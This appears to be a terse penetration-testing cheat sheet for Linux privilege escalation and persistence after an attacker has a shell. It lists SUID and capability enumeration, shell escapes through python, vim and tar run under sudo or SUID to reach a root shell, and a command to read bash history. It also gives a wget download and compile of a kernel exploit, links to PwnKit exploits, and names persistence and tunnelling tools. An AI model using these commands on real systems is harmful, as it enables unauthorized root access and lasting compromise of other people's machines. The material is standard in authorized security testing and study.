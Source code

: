 
INPUT: Stablished shell
PROCESS:
- Privilege Escalation
- Maintain Access
TOOLS
- GTFOBins
OUPUT: 
- root shell



## Privilege Escalation
getcap -r / 2>/dev/null
Python Library Hijacking on Linux
[SUID] find / -perm /4000 2>/dev/null
    - [python] <python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'>
[sudo] <id; sudo -l; sudo -V>
- [vim] <sudo vim -c ':!/bin/sh'>
[WebServer]:
- [python3]: python3 module <python3 -m http.server>
[Bash]  
- [History] <cat .bash_history>
[vsftpd]
- !/bin/bash
[tar]    
    <sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh>
    <sudo install -m =xs $(which tar)
    ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh>

find / -type f -user root -perm -u=s 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

## Maintain Access
- PowerSploit
- Weewly
- dns2tcp


[cve-2017-16995]
    wget https://www.exploit-db.com/download/45010 -O cve-2017-16995.c
    gcc --static cve-2017-16995.c -o cve-2017-16995
[CVE-2021-4034]
    https://www.exploit-db.com/exploits/50689
    https://github.com/ryaagard/CVE-2021-4034
    https://github.com/c3c/CVE-2021-4034
[GTFOBins]
    https://gtfobins.github.io/
